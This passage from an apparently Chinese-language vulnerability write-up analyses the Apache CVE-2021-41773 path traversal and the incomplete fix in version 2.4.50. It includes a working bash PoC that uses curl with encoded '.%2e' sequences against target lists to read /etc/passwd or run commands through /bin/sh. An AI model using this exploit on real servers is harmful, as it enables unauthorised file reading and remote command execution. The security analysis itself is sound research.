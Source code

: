 ```
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done

# PoC.sh targets.txt /etc/passwd
# PoC.sh targets.txt /bin/sh whoami
```



### 后续

在2.4.49 -> 2.4.50版本中代码变更内容如下:

![image-20211215004455348](../assets/2021-11-30-CVE--2021--41773%E8%AF%A6%E7%BB%86%E5%88%86%E6%9E%90/image-20211215004455348.png)

发现多了一个关键字 **decode_unreserved** ，找一下，发现了533-541行

该处代码检查了以%开头，后两位解码后为 **-._~** 字符的内容，但依旧没有对整体内容进行检查，也没有防止二次编码

```c
        if (decode_unreserved
                && path[l] == '%' && apr_isxdigit(path[l + 1])
                                  && apr_isxdigit(path[l + 2])) {
            const char c = x2c(&path[l + 1]);
            if (apr_isalnum(c) || (c && strchr("-._~", c))) {
                /* Replace last char and fall through as the current
                 * read position */
                l += 2;
                path[l] = c;
```
